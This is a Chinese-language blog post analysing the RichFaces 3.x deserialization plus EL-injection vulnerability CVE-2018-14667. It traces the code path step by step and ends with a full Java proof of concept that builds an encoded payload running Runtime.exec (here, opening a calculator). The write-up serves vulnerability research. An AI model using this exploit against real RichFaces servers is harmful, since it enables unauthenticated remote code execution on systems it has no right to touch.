 ```yaml
---
layout: post
title: RichFaces CVE-2018-14667
tags: [Java, RichFaces]
comment: false
---
```


影响：3.x ~ 3.3.4(3.x 中最高的版本，官方在 2016 年已经停止维护该项目)

据漏洞的描述为可以通过 org.ajax4jsf.resource.UserResource$UriData 构造恶意的反序列化数据（里面插入 EL 来执行代码），从而攻击者可以在未认证的情况下实现远程代码执行的效果。

### RichFaces 中的反序列的点

从官网下载 richfaces-demo-3.3.4.Final.war 作为测试对象，

在 BaseFilter#doFilter 中检测是否为资源服务请求（这是个人理解，对 RichFaces 并不熟悉）处下一个断点开始跟踪调试
![](https://i.loli.net/2019/07/28/5d3d4eceb334225199.jpg)

往前跟到进入 WebXml#getFacesResourceKey
![](https://i.loli.net/2019/07/28/5d3d4ed50322933944.jpg)

这个方法传入的参数就是 url，然后通过 url 的开头和三种资源的前缀来对比区分请求的资源类型，这三种资源前缀分别为
![](https://i.loli.net/2019/07/28/5d3d4ebe17f5533493.jpg)

再加上版本号，接下来是截取了相应的前缀和后缀（.jsf）后将中间的值返回

继续往下跟进入 InternetResourceService#serviceResource 就是用前面获取到的返回值作为 resourceKey 去找相对应的 resource
![](https://i.loli.net/2019/07/28/5d3d4ec3f113b13924.jpg)

往下跟的时候发现前面传进来的 resourceKey 还会根据 DAT(A\|B) 来截取一次作为 key

![](https://i.loli.net/2019/07/28/5d3d4ec46e4fc53300.jpg)

这里就有一开始看这个洞的时候比较疑惑的一点，org.ajax4jsf.resource.UserResource 没有注册，直接会抛出上图中的那个异常了。也没找到这个流程中能注册 resource 的点，还以为是得修改服务端的配置添加这个 resource 了，后来看了别人的文章才发现在 MediaOutputRenderer#doEncodeBegin 中有对 UserResource 的创建，它是在对 jsf 的 mediaOutput 标签解析中执行的。在 demo 中动态生成图片处查看它的 url 
![](https://i.loli.net/2019/07/28/5d3d4ec2547d830697.jpg)

因此在利用的过程中需要用到 demo 中这个已经注册的 UserResource 的 key，在这里是 org.ajax4jsf.resource.UserResource/n/s/-1487394660，如果这里的 key 是已经注册了的就可以继续往下跑了，到进入 ResourceBuilderImpl#getResourceDataForKey
![](https://i.loli.net/2019/07/28/5d3d4ed2122c245873.jpg)

这个方法的大体流程为截取 DAT(A\|B) 后的数据进行解密，然后做反序列化，代码中其实可以看到只有是 DATA 的时候才会做反序列化，DATB 是直接作为对象数组处理了。这里处理输入流的类重写了 resolveClass 方法，做了白名单的检测，要用到的 org.ajax4jsf.resource.UserResource$UriData 就在白名单中，就不跟过去看了。

这个洞的利用并不是反序列化来触发的，触发点还在后面。

### 触发 EL 执行

接下来的执行流程还是在 InternetResourceService#serviceResource 中，将反序列化获取到的对象存入 resourceContext 中，往下直到进入
![](https://i.loli.net/2019/07/28/5d3d4ebd0fcdb84254.jpg)

这其中还是有条件判断是否能执行到这一步，不过默认的情况下没看到有影响。跟下去会发现调用到了 UserResource#send，最终在 invoke 处执行了 EL
![](https://i.loli.net/2019/07/28/5d3d4ed3b56cb28700.jpg)

上面这个只是 EL 执行的其中一处，看 InternetResourceBase#sendHeaders
![](https://i.loli.net/2019/07/28/5d3d4ee35572657589.jpg)

红圈的这两处其实就是调用的 UserResource#getLastModified 和 UserResource#getExpired，这三处都是可以执行 EL 的，执行流程中的顺序为 UserResource#getLastModified、UserResource#getExpired 和 UserResource#send。

### PoC

简单修改了一下随风师傅的 PoC，改成了在 UserResource#getLastModified 处触发执行

```java
package javax.faces.component;

import org.ajax4jsf.util.base64.Codec;
import util.Reflections;

import javax.el.ValueExpression;
import org.jboss.el.ValueExpressionImpl;
import javax.faces.FacesException;
import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.util.zip.Deflater;

/**
 * Created by k1n9 on 2018/11/21 at 11:19.
 */
public class CVE201814667 {
    private static Codec codec = new Codec();

    protected static byte[] encrypt(byte[] src) {
        try {
            Deflater compressor = new Deflater(1);
            byte[] compressed = new byte[src.length + 100];
            compressor.setInput(src);
            compressor.finish();
            int totalOut = compressor.deflate(compressed);
            byte[] zipsrc = new byte[totalOut];
            System.arraycopy(compressed, 0, zipsrc, 0, totalOut);
            compressor.end();
            return codec.encode(zipsrc);
        } catch (Exception var6) {
            throw new FacesException("Error encode resource data", var6);
        }
    }

    public static void main(String[] args) throws Exception {
        String expr = "#{request.getClass().getClassLoader().loadClass(\"java.lang.Runtime\").getMethod(\"getRuntime\").invoke(null).exec(\"open /applications/calculator.app\")}";

        Class cls = Class.forName("org.ajax4jsf.resource.UserResource$UriData");
        Constructor ct = cls.getDeclaredConstructors()[0];
        ct.setAccessible(true);
        Object obj = ct.newInstance();

        ValueExpression ve = new ValueExpressionImpl(expr, null, null, null ,null);
        StateHolderSaver stateHolderSaver = new StateHolderSaver(null, ve);

        Reflections.setFieldValue(obj, "modified", stateHolderSaver);

        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(bos);
        oos.writeObject(obj);

        byte[] output = encrypt(bos.toByteArray());
        System.out.println(new String(output, "ISO-8859-1"));
    }
}
```

### 参考

- [CVE-2018-14667（POC）](https://xz.aliyun.com/t/3264)
- [Red Hat JBoss EAP RichFaces - unserialize + el = RCE - 【CVE-2018-14667】](https://threathunter.org/topic/5be44bbbf2ad8dd42fb88dfd)

